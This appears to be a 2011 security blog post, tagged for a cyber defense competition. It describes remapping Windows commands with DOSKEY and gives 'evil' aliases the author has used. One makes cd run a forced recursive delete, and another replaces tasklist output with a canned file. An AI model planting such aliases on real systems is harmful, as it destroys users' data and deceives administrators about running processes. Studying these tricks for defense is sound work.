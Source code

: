 ---
author: mubix
comments: true
date: 2011-03-02 20:05:22+00:00
layout: post
title: Destructive DOSKEY aliases
categories:
- ccdc
- doskey
---

Not sure how far back it goes (Win95?) but 2000, XP and all the way up to Win 7 have a program called DOSKEY:

```  
C:\Users\vmadmin>doskey /?
Edits command lines, recalls Windows commands, and creates macros.

DOSKEY [/REINSTALL] [/LISTSIZE=size] [/MACROS[:ALL | :exename]]
  [/HISTORY] [/INSERT | /OVERSTRIKE] [/EXENAME=exename] [/MACROFILE=filename]
  [macroname=[text]]

  /REINSTALL          Installs a new copy of Doskey.
  /LISTSIZE=size      Sets size of command history buffer.
  /MACROS             Displays all Doskey macros.
  /MACROS:ALL         Displays all Doskey macros for all executables which have
                      Doskey macros.
  /MACROS:exename     Displays all Doskey macros for the given executable.
  /HISTORY            Displays all commands stored in memory.
  /INSERT             Specifies that new text you type is inserted in old text.
  /OVERSTRIKE         Specifies that new text overwrites old text.
  /EXENAME=exename    Specifies the executable.
  /MACROFILE=filename Specifies a file of macros to install.
  macroname           Specifies a name for a macro you create.
  text                Specifies commands you want to record.

UP and DOWN ARROWS recall commands; ESC clears command line; F7 displays
command history; ALT+F7 clears command history; F8 searches command
history; F9 selects a command by number; ALT+F10 clears macro definitions.

The following are some special codes in Doskey macro definitions:
$T     Command separator.  Allows multiple commands in a macro.
$1-$9  Batch parameters.  Equivalent to %1-%9 in batch programs.
$*     Symbol replaced by everything following macro name on command line.
```

Just like the Linux 'alias' command in some ways, you can remap pretty much any command you want. Here are some of the more evil ones I have used in the past:

* doskey cd=del /f /s $1
* doskey tasklist=cat tasklist.txt
* doskey dir=dir ......

I'm sure you can think of a ton more..

The great thing is that there isnt' a /delete - you just have to know that in order to remove a doskey macro you just issue the command without the aliased part, so 'doskey tasklist=' will delete the tasklist macro.